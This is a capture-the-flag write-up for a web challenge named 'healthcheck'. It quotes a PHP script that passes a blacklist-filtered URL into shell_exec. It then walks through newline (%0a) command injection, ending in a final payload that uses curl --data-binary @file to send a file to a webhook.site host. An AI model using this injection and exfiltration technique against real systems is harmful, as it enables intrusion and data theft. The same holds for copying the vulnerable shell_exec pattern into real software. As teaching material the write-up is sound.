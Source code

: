 # healthcheck

>Category: Web Exploitation 🕸️

![img](chall.png)

![img](landing.png)

![img](test.png)

Step-by-Step Explanation of the Exploit
1️⃣ Understanding the Web Application
The challenge provides a PHP script that accepts a POST request with a url parameter.

The script sanitizes the input by removing certain blacklisted characters.

```php
$blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

$sanitized_url = str_replace($blacklist, '', $url);
```

It then executes the following command:

```php
$command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";
```

Key Takeaway:

The curl command fetches the url input.

The response is piped (|) to grep to extract only the HTTP response code.

However, there is a command injection vulnerability because the input is directly used in a system command.

```php
$output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
```

2️⃣ Identifying the Injection Point
The presence of curl <user_input> means we can inject arbitrary commands.

The blacklist **removes ;, &, |**, and other common special characters, but newline (%0a) is not blocked.

Since the command is executed in a shell, injecting **%0a** (newline) allows us to run new commands separately.

Key Takeaway:

Using **%0a** lets us break out of curl and execute additional shell commands.

3️⃣ Attempting to Read the hopes_and_dreams File
We assumed that the file hopes_and_dreams existed in the same directory as the script.

Running:

```
http://104.214.185.119/index.php/%0acat hopes_and_dreams
```

I think this successfully executed cat hopes_and_dreams due to the code is 200, but the response was piped to grep, so it didn't show useful output.

Key Takeaway:

The file was accessible, but output handling was an issue.

4️⃣ Finding a Way to Extract the Output
🚫 Failed Attempts
We tried:

```
http://104.214.185.119/index.php/%0acurl -X POST --data-binary "$(cat hopes_and_dreams)" https://webhook.site/...
```

Problem: The shell treated `$(cat hopes_and_dreams)` as a literal string instead of executing it due to $() are being blacklisted.

We also tried:

```
http://104.214.185.119/index.php/%0acurl -s http://104.214.185.119/hopes_and_dreams > /tmp/output.txt
```

Problem: > is blacklisted, preventing redirection.

✅ The Working Exploit
The key was using file input with curl:

```
http://104.214.185.119/index.php/%0acurl -X POST --data-binary @hopes_and_dreams https://webhook.site/...
```

Why did this work?

@<filename> tells curl to read directly from the file and send it as a request body.

No need for $(), or >, which were blocked.

Key Takeaway:

The @<filename> trick in curl allows file exfiltration without needing command substitution.

Final Summary
Identified command injection via curl in PHP.

Used %0a (newline) to break out of the intended command.

Confirmed file existence (cat hopes_and_dreams).

Bypassed output handling restrictions with @<filename> in curl.

Successfully exfiltrated the file contents via a webhook.

## Final Payload
```
http://104.214.185.119/index.php/%0acurl -X POST --data-binary @hopes_and_dreams https://webhook.site/8001c163-fff8-48f1-94d9-787c5b4a24d6
```

![img](Screenshot%20(125).png)

## 🏳️Flag
>umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}
